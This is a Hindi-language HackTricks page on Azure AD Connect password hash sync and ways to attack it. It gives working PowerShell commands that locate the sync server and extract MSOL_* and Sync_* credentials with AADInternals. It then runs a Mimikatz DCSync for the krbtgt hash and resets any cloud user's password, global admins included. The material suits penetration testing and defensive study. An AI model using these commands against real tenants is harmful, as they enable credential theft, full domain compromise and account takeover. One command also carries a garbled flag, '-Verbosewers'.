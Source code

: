 # Az - PHS - पासवर्ड हैश सिंक

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>के साथ जीरो से हीरो तक AWS हैकिंग सीखें</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप अपनी कंपनी का विज्ञापन **HackTricks** में देखना चाहते हैं या **HackTricks को PDF में डाउनलोड** करना चाहते हैं तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** द्वारा PRs सबमिट करके [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## मूल जानकारी

[दस्तावेज़ से:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **पासवर्ड हैश सिंक्रोनाइज़ेशन** हाइब्रिड आईडेंटिटी पूरा करने के लिए उपयोग किए जाने वाले साइन-इन विधियों में से एक है। **Azure AD Connect** एक उपकरण है जो एक उपकरण से एक उपयोगकर्ता के पासवर्ड का हैश, एक हैश को, क्लाउड-आधारित Azure AD उपकरण में सिंक्रनाइज़ करता है।

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

यह कंपनियों द्वारा उपयोग किया जाने वाला **सबसे सामान्य विधि** है जो एक ऑन-प्रेम AD को Azure AD के साथ सिंक्रनाइज़ करने के लिए उपयोग किया जाता है।

सभी **उपयोगकर्ता** और **पासवर्ड हैश का हैश** ऑन-प्रेम से Azure AD में सिंक्रनाइज़ होते हैं। हालांकि, **स्पष्ट-पाठ पासवर्ड** या **मूल** **हैश** Azure AD में नहीं भेजे जाते हैं।\
इसके अतिरिक्त, **बिल्ट-इन** सुरक्षा समूह (जैसे डोमेन व्यवस्थापक...) को Azure AD में **सिंक्रनाइज़ नहीं** किया जाता है।

**हैश सिंक्रोनाइज़ेशन** हर **2 मिनट** में होता है। हालांकि, डिफ़ॉल्ट रूप से, **पासवर्ड समाप्ति** और **खाता समाप्ति** Azure AD में **सिंक नहीं** होती है। इसलिए, एक उपयोगकर्ता जिसका **ऑन-प्रेम पासवर्ड समाप्त हो गया है** (नहीं बदला गया) पुराने पासवर्ड का उपयोग करके **Azure संसाधनों तक पहुंच** सकता है।

जब एक ऑन-प्रेम उपयोगकर्ता एक Azure संसाधन तक पहुंचना चाहता है, तो **प्रमाणीकरण Azure AD पर होता है**।

**PHS** की आवश्यकता है जैसे **आईडेंटिटी सुरक्षा** और AAD डोमेन सेवाओं के लिए।

## पिवोटिंग

जब PHS कॉन्फ़िगर किया जाता है तो कुछ **विशेषाधिकारी खाते** स्वचालित रूप से **बनाए जाते हैं**:

* खाता **`MSOL_<installationID>`** स्वचालित रूप से ऑन-प्रेम AD में बनाया जाता है। इस खाते को **Directory Synchronization Accounts** भूमिका दी जाती है (देखें [दस्तावेज़](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) जिसका मतलब है कि इसके पास **ऑन-प्रेम AD में रिप्लिकेशन (DCSync) अनुमतियाँ हैं**।
* एक खाता **`Sync_<name of on-prem ADConnect Server>_installationID`** Azure AD में बनाया जाता है। इस खाते से Azure AD में किसी भी उपयोगकर्ता का पासवर्ड रीसेट किया जा सकता है (सिंक किया गया हो या केवल क्लाउड में)।

पिछले दो विशेषाधिकारी खातों के पासवर्ड **एक SQL सर्वर में स्टोर किए जाते हैं** जहां **Azure AD Connect स्थापित है**। व्यवस्थापक उन विशेषाधिकारी उपयोगकर्ताओं के पासवर्ड को स्पष्ट-पाठ में निकाल सकते हैं।\
डेटाबेस `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf` में स्थित है।

एक तालिका में से कॉन्फ़िगरेशन निकालना संभव है, जिसमें से एक एन्क्रिप्टेड है:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**एन्क्रिप्टेड कॉन्फ़िगरेशन** **DPAPI** के साथ एन्क्रिप्ट किया गया है और इसमें **`MSOL_*`** उपयोगकर्ता के पासवर्ड ऑन-प्रेम AD में और **AzureAD में Sync\_\*** का पासवर्ड है। इसलिए, इन्हें कंप्रोमाइज़ करने के द्वारा AD और AzureAD में प्राइवेस्क करना संभव है।

आप एक [टॉक](https://www.youtube.com/watch?v=JEIR5oGCwdg) में इन पासवर्डों को कैसे स्टोर किया और डिक्रिप्ट किया जाता है का पूर्ण अवलोकन पा सकते हैं।

### **Azure AD कनेक्ट सर्वर** खोजना

अगर **सर्वर जहां Azure AD कनेक्ट स्थापित है** डोमेन जुड़ा हुआ है (दस्तावेज़ में सिफारिश की गई है), तो इसे खोजना संभव है:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### MSOL\_\* का दुरुपयोग
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
आप इन परिनामों को प्राप्त करने के लिए [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) का भी उपयोग कर सकते हैं।
{% endhint %}

### सिंक\_\* का दुरुपयोग

**`Sync_*`** खाते को कंप्रोमाइज़ करके किसी भी उपयोगकर्ता का पासवर्ड रीसेट करना संभव है (जिसमें ग्लोबल व्यवस्थापक भी शामिल हैं)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
यह भी संभव है कि केवल **क्लाउड** उपयोगकर्ताओं के पासवर्ड को **संशोधित** किया जा सकता है (यदि यह अप्रत्याशित है)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
इस उपयोगकर्ता के पासवर्ड को डंप करना भी संभव है।

{% hint style="danger" %}
एक और विकल्प हो सकता है **सेवा प्रधान** को **विशेषाधिकारित अनुमतियाँ सौंपना**, जिसे **सिंक** उपयोगकर्ता को **अनुमतियाँ** हैं, और फिर **उस सेवा प्रधान** तक पहुंचना एक privesc के रूप में।
{% endhint %}

### सीमलेस एसएसओ

PHS के साथ सीमलेस एसएसओ का उपयोग करना संभव है, जो अन्य दुरुपयोगों के लिए विकल्पयुक्त है। इसे जांचें:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## संदर्भ

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी कंपनी का विज्ञापन **HackTricks** में देखना चाहते हैं या **HackTricks को PDF में डाउनलोड** करना चाहते हैं तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **जुड़ें** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>
